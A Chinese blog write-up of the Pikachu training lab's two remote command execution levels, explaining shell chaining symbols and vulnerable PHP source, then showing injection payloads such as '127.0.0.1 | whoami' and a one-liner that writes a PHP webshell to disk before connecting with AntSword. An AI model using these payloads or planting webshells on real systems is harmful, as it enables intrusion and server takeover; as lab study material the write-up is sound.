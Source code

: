 ```yaml
---
title: pikachuRCE通关笔记
published: 2025-10-04
description: 抓包工具及证书安装。
tags: [靶场,基础入门]
category: 网络安全
draft: false
---
```


# pikachu-01 RCE(remote command/code execute)

# 概述

pikachu靶场的RCE远程命令执行关卡（2关）记录。

> **介绍**
> RCE远程命令/代码执行，RCE英文全称：remote command/code execute。它是一种极为严重的安全风险，允许攻击者在未授权的情况下，通过网络远程在目标系统上执行任意代码。攻击者利用 RCE安全风险，可直接获取系统的控制权，进而窃取敏感信息，如用户账号、密码、企业机密数据等；还能篡改系统文件和配置，破坏系统的正常运行，导致业务中断；甚至可以在系统中植入后门程序，长期控制目标系统，为后续的攻击活动提供便利。
>
> **远程系统命令执行**
> 一般出现这种漏洞，是因为应用系统从设计上需要给用户提供指定的远程命令操作的接口，比如我们常见的路由器、防火墙、入侵检测等设备的web管理界面上，一般会给用户提供一个ping操作的web界面，用户从web界面输入目标IP，提交后，后台会对该IP地址进行一次ping测试，并返回测试结果。 而，如果，设计者在完成该功能时，没有做严格的安全控制，则可能会导致攻击者通过该接口提交“意想不到”的命令，从而让后台进行执行，从而控制整个后台服务器。
>
> 现在很多的甲方企业都开始实施自动化运维,大量的系统操作会通过"自动化运维平台"进行操作。 在这种平台上往往会出现远程系统命令执行的漏洞,不信的话现在就可以找你们运维部的系统测试一下,会有意想不到的"收获"-_-
>
> **远程代码执行**
> 同样的道理,因为需求设计,后台有时候也会把用户的输入作为代码的一部分进行执行,也就造成了远程代码执行漏洞。 不管是使用了代码执行的函数,还是使用了不安全的反序列化等等。因此，如果需要给前端用户提供操作类的API接口，一定需要对接口输入的内容进行严格的判断，比如实施严格的白名单策略会是一个比较好的方法。你可以通过“RCE”对应的测试栏目，来进一步的了解该漏洞。

## 常用符号

在命令执行安全风险场景里，`&、&&、|、||、`; 这些符号被攻击者用于拼接命令和控制命令执行流程，以下是它们的用法和区别如下所示。

1. `&`

   作用：在多数操作系统中，`&` 用于让命令在后台执行。在命令执行安全风险里，它能使多个命令并行执行，即前一个命令启动后，后续命令无需等待其完成就会开始执行。

   示例：假设存在安全风险的系统允许用户输入并执行命令，攻击者输入 `ping 127.0.0.1 & ls`，那么 ping 命令和 ls 命令会同时开始执行。

2. `&&`

   作用：`&&` 用于按顺序依次执行命令，并且只有当前一个命令成功执行（返回状态码为 0）时，才会执行后一个命令。这常用于需要前一个操作完成且成功后再进行下一步操作的情况。

   示例：输入 `ping 127.0.0.1 && ls`，只有当 ping 命令成功执行（即能正常连接到 127.0.0.1）时，ls 命令才会执行。

3. `|`

   作用：`| `是管道符号，它把前一个命令的输出作为后一个命令的输入。攻击者可利用它将多个命令组合起来，实现复杂的数据处理和操作。

   示例：输入`ls | grep test`，ls 命令会列出当前目录下的文件和文件夹，然后将结果传递给 grep 命令，grep 会在这些结果中查找包含 "test" 的行。同理也可以进行如`ping 127.0.0.1 | whoami`此类的操作。

4. `||`

   作用：`|| `同样用于连接两个命令，不过与 `&& `相反，只有当前一个命令执行失败（返回状态码不为 0）时，才会执行后一个命令。这可用于在某个操作失败时执行备用操作。

   示例：输入 `false || ls`，由于 false 命令执行失败，所以会接着执行 ls 命令。

5. `;`

   作用：`; `用于分隔多个命令，它会依次执行这些命令，无论前一个命令执行成功与否，后续命令都会继续执行。

   示例：输入 `ping 127.0.0.1 ; ls`，先执行 ping 命令，然后不管 ping 执行结果如何，都会执行 ls 命令。

# exec-ping

## 源码分析

```php
// 初始化一个空字符串变量 $result，用于存储执行命令后的结果
$result = '';
 
// 检查是否通过 POST 方式提交了表单，并且表单中名为 'ipaddress' 的字段不为空
if (isset($_POST['submit']) && $_POST['ipaddress'] != null) {
    // 从 POST 请求中获取用户输入的 IP 地址，并将其赋值给变量 $ip
    $ip = $_POST['ipaddress'];
    // $check=explode('.', $ip);
    // 这是一段注释掉的代码，原本意图是将 IP 地址按点号 '.' 拆分成数组，
    // 然后可以对数组中的每个数字进行范围校验，
    // 例如第一位和第四位数字范围是 1 - 255，中间两位数字范围是 0 - 255
    // $check = explode('.', $ip); 
 
    // 检查当前服务器操作系统是否为 Windows 系统
    if (stristr(php_uname('s'), 'windows')) {
        // var_dump(php_uname('s')); 这是一段注释掉的代码，用于打印当前服务器操作系统名称
        // 使用 shell_exec 函数执行 Windows 系统下的 ping 命令，将用户输入的 IP 地址直接拼接到命令中
        // 并将执行结果追加到 $result 变量中
        $result .= shell_exec('ping ' . $ip);
    } else {
        // 如果服务器操作系统不是 Windows 系统，则执行 Linux 系统下的 ping 命令，
        // 并指定 ping 的次数为 4 次，同样将用户输入的 IP 地址直接拼接到命令中
        // 并将执行结果追加到 $result 变量中
        $result .= shell_exec('ping -c 4 ' . $ip);
    }
}
```

## 解决乱码

在pikachu-master\vul\rce目录中找到rce_ping.php文件，按如下代码进行修改即可解决乱码问题。

```php
if($result){
	$result = iconv("GBK", "UTF-8", $result); // 添加此行代码
	echo "<pre>{$result}</pre>";
}
```

## 正式操作

由于windows和linux有3个命令连接符是相同的`（|,||,&&）`，因此在不知道目标的具体操作系统的情况下（虽然是我自己搭建的环境，但是，假装不知道吧）。

输入payload：`127.0.0.1 | whoami`，结果如下图所示，执行完命令后，可以在页面看到已经获取到了目标的域和用户名：win-unahmjh2g8h\administrator，同时由于是administrator所以也知道了操作系统为Windows。

![alt](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/rce1.png)

输入payload：`127.0.0.1 | dir`，即可查看到当前路径和路径下的文件。

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/rce2.png)

当然还有其它操作，比如输入payload：`127.0.0.1 | ipconfig`可以查看到目标的IP地址。

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/rce3.png)

# exec-eval

## 源码分析

前端：name="txt"产生 POST 字段；后端：用户输入未被过滤直接传入eval()函数中。

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/rce2-5.png)

## 正式操作

题目给到提交一个喜欢的字符串，所以就先随便扔点东西上去。

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/rce2-1.png)

这里发现好像没什么限制，所以直接不演了，payload直接输入phpinfo();发现被执行，所以再试试能不能植入一句话木马。

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/rce2-2.png)

```php
// 一句话木马投放
// payload：
fputs(fopen('shell.php','w'),'<?php assert($_POST[fin]);?>');
```

提交一句话之后，发现页面没什么变化，但是当返回靶机进行查看后，发现目录下已经多了一个shell.php的文件，遂用蚁剑进行连接，于是整个关卡到此结束。

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/rce2-3.png)

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/rce2-4.png)

